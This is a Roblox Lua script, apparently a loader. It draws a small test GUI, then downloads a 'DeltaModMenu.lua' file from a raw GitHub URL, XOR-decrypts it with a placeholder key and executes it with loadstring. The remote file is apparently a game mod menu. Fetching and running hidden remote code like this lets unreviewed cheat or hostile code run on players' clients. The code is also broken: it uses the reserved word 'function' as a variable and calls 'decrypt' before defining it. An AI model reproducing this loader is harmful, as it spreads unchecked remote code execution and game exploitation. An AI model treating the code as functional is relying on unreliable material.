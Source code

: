 local HttpService = game:GetService("HttpService")
local player = game.Players.LocalPlayer
local playerGui = player:WaitForChild("PlayerGui")

-- Function to fetch and execute code from a URL
local function fetchAndExecuteCode(url)
    local success, response = pcall(function()
        return HttpService:GetAsync(url)
    end)

    if success then
        -- Decrypt the fetched code
        local decryptedCode = decrypt(response)

        -- Execute the decrypted code
        local function, err = loadstring(decryptedCode)
        if function then
            coroutine.wrap(function()
                function()
            end)()
        else
            warn("Error loading string: " .. err)
        end
    else
        warn("Error fetching code from URL: " .. response)
    end
end

-- Function to decrypt the code
local function decrypt(encryptedCode)
    -- Simple XOR decryption example
    local key = "your_decryption_key" -- Ensure this matches the key used for encryption
    local decrypted = ""
    for i = 1, #encryptedCode do
        decrypted = decrypted .. string.char(string.byte(encryptedCode, i) ~ string.byte(key, i % #key + 1))
    end
    return decrypted
end

-- Function to create a basic GUI
local function createBasicGui()
    local gui = Instance.new("ScreenGui")
    gui.Name = "TestGui"
    gui.ResetOnSpawn = false
    gui.Parent = playerGui

    local frame = Instance.new("Frame")
    frame.Size = UDim2.new(0, 200, 0, 100)
    frame.Position = UDim2.new(0.5, -100, 0.5, -50)
    frame.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
    frame.BorderSizePixel = 0
    frame.Parent = gui

    local textLabel = Instance.new("TextLabel")
    textLabel.Size = UDim2.new(1, 0, 1, 0)
    textLabel.Text = "Test GUI"
    textLabel.TextSize = 24
    textLabel.Font = Enum.Font.SourceSans
    textLabel.TextColor3 = Color3.fromRGB(0, 0, 0)
    textLabel.BackgroundTransparency = 1
    textLabel.Parent = frame
end

-- Execute the combined test
createBasicGui()
fetchAndExecuteCode("https://raw.githubusercontent.com/maurree/MobileScripts/refs/heads/main/DeltaModMenu.lua")
